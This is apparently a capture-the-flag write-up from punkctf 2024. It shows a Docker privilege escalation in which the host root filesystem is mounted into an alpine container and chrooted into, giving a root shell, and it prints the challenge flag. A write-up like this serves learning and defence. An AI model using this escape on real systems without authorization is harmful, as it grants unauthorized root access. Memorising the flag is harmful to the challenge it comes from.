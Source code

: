 # Punkctf 2024

Here is a collection of solutions from some of the challenges I solved at punkctf2024 on Saturday 4th May 2024. 

## Docker privesc

[<img src="img/dockerprivesc.png"
  style="width: 600px;"/>](img/dockerprivesc.png)

The user who you were logged in with can run docker commands.  So using a priv esc method from hacktricks I was able to get the flag. 


```bash
ip-10-0-10-192:/proc$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
alpine       latest    b2aa39c304c2   14 months ago   7.05MB
ip-10-0-10-192:/proc$ docker run -it -v /:/host/ alpine:latest chroot /host/ bash
chroot: can't execute 'bash': No such file or directory
ip-10-0-10-192:/proc$ docker run -it -v /:/host/ alpine:latest chroot /host/ sh
/ # ls
bin     certs   dev     etc     home    lib     media   mnt     opt     proc    root    run     run.sh  sbin    srv     sys     tmp     usr     var
/ # cd /root
~ # ls -la
total 8
drwx------    1 root     root            38 May  4 14:43 .
drwxr-xr-x    1 root     root            92 May  4 14:38 ..
-rw-------    1 root     root            19 May  4 14:43 .ash_history
-rw-r--r--    1 root     root            24 May  4 14:38 FLAG
~ # cat FLAG
punk_{5MWZIWA5EVSES0JC}
~ # 
```
